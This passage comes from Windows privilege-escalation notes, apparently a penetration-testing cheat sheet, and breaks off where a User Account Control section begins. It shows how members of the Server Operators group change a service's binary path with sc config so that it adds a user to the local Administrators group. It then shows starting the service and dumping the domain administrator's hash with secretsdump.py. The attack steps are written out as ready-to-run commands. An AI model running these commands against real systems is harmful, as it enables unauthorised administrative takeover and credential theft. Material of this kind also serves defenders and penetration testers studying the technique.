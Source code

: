 ### **Server Operators**

The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful **SeBackupPrivilege** and **SeRestorePrivilege** privileges and the ability to control local services

#### Querying the Service

```
C:\> sc qc <service name>
```

#### Checking Service Permissions with PsService

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service.

```
C:\> c:\Tools\PsService.exe security <Service name>
```
 **SERVICE_ALL_ACCESS** access right  gives us full control over the service.

#### Modifying the Service Binary Path and Starting the Service

```
C:\> sc config <service name> binPath= "cmd /c net localgroup Administrators <user> /add"
C:\> sc start <service Name>
```

#### Confirming Local Admin Group Membership

```
C:\> net localgroup Administrators
```

#### Dumping Admin hash

Once we Are member of Admin Group We can dump hashes of admin

```
attacker@ubuntu[/]$  secretsdump.py <user>@<ip> -just-dc-user administrator
``` 

* * *

## Attacking the OS

### **User Account Control**

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities. Applications have different integrity levels, and a program with a high level can perform tasks that could potentially compromise the system. When UAC is enabled, applications and tasks always run under the security context of a non-administrator account unless an administrator explicitly authorizes these applications/tasks to have administrator-level access to the system to run
